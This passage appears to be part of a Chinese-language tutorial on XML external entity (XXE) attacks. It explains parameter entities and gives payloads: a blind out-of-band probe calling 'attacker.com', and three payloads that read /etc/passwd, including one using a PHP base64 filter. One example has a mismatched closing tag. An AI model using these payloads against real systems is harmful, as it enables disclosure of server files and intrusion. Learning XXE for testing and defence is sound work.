 XML外部实体是引发XML外部实体攻击的主要手段。

### 什么是XML参数实体？

有时，由于应用程序的某些输入验证或正在使用的XML解析器的某些加强，导致使用常规实体的XXE攻击会被阻止。在这种情况下，您可以改用XML参数实体。XML参数实体是一种特殊的XML实体，只能在DTD中的其他地方引用。

声明XML参数实体有两个明显的特征：

首先，实体名称前使用是的百分号：

```xml-dtd
<!ENTITY % myparameterentity "my parameter entity value" >
```

其次，实体参数在引用时使用的是%符号而不是&符号：

```xml-dtd
<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://attacker.com"> %xxe; ]>
```

这意味着可以通过XML参数实体使用带外检测来测试 blind XXE，如下所示：

```xml-dtd
<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://attacker.com"> %xxe; ]>
```

这个XXE  的 payload 声明了一个名为xxe的XML参数实体，然后在DTD中使用该实体。这将导致对攻击者的域进行DNS查找和HTTP请求来判断攻击是否成功。

## 主要利用方式

### 读文件

现在已不同方式读取`/etc/passwd`文件，如果是Windows主机可以读取：C:\windows\system32\drivers\etc\hosts文件

第一：直接读取，也可以通过file协议进行读取

```xml-dtd
<!--?xml version="1.0" ?-->
<!DOCTYPE foo [<!ENTITY example SYSTEM "/etc/passwd"> ]>
<data>&example;</data>
```

![img](XXE.assets/assets%2F-L_2uGJGU7AVNRcqRvEi%2F-M5JwHs_b8OcUEBCgAQt%2F-M5MQDd-eCxp3Cy2bJ6S%2Fimage.png)

第二：如果目标服务器使用的是PHP环境，可以使用：

```xml-dtd
<!--?xml version="1.0" ?-->
<!DOCTYPE replace [<!ENTITY example SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd"> ]>
<data>&example;</data>
```

第三：将元素类别声明为 ANY：

```xml-dtd
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE data [
<!ELEMENT stockCheck ANY>
<!ENTITY file SYSTEM "file:///etc/passwd">
]>
<stockCheck>
    <productId>&file;</productId>
    <storeId>1</storeId>
</stockCheck3>
```

